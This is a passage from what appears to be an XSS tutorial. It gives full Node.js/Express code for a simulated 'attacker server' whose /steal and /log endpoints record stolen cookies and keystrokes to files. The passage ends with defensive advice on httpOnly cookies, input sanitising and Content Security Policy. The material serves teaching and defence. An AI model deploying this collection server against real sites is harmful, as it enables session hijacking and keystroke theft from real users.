 ✅ Use Content Security Policy (CSP) to block inline scripts

Content-Security-Policy: default-src 'self'

🔥 Step 3: Creating an Attacker Server to Capture Data

To simulate an attacker, create a simple Node.js server to log stolen data.
📌 Create attacker.js (Malicious Server)

const express = require("express");
const fs = require("fs");

const app = express();
app.use(express.json());

app.get("/steal", (req, res) => {
    const logData = `Stolen Cookie: ${req.query.cookie}\n`;
    fs.appendFileSync("stolen_data.txt", logData);
    console.log(logData);
    res.send("Cookie stolen!");
});

app.get("/log", (req, res) => {
    const logData = `Key Pressed: ${req.query.key}\n`;
    fs.appendFileSync("keystrokes.txt", logData);
    console.log(logData);
    res.send("Key logged!");
});

app.listen(3001, () => console.log("🚨 Attacker server running on port 3001"));

💡 What This Does

    Logs stolen cookies to stolen_data.txt.
    Logs keystrokes to keystrokes.txt.

📌 Run Attacker Server

node attacker.js

Now, every stolen cookie or keystroke will be logged into files!
🛡️ Defenses Against These Attacks

To protect against XSS, apply these security best practices:

✅ 1. Use httpOnly & SameSite Cookies

    Prevents JavaScript from accessing sensitive cookies.

✅ 2. Sanitize User Input (sanitize-html)

    Cleans up <script> tags before storing comments.

✅ 3. Escape User Input (DOMPurify)

    Prevents script execution in React.

✅ 4. Implement Content Security Policy (CSP)

    Blocks inline scripts and restricts external script execution:
